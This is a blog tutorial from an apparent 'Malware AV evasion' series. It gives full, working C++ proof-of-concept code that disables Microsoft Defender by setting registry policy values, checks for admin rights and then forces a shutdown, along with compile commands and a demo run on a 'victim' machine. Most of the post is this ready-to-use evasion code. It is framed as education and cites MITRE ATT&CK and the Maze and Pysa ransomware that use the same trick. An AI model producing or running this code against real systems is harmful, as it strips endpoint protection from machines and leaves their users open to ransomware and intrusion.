 ```yaml
---
title:  "Malware AV evasion: part 7. Disable Windows Defender. Simple C++ example."
date:   2022-06-05 10:00:00 +0600
header:
  teaser: "/assets/images/57/2022-06-05_12-21.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - evasion
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!    

![av](/assets/images/57/2022-06-05_12-21.png){:class="img-responsive"}    

This article is the result of my own research into one of the most common tricks used by malware in the wild.    

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\npress any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:

![av](/assets/images/57/2022-06-05_12-19.png){:class="img-responsive"}    

and check registry keys:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-15.png){:class="img-responsive"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av](/assets/images/57/2022-06-05_12-03.png){:class="img-responsive"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

![av](/assets/images/57/2022-06-05_12-17.png){:class="img-responsive"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-20.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_12-20_1.png){:class="img-responsive"}    

For correctness, check via Windows Defender Security Center:

![av](/assets/images/57/2022-06-05_12-22.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_13-17.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0449/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-06-05-malware-av-evasion-7)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
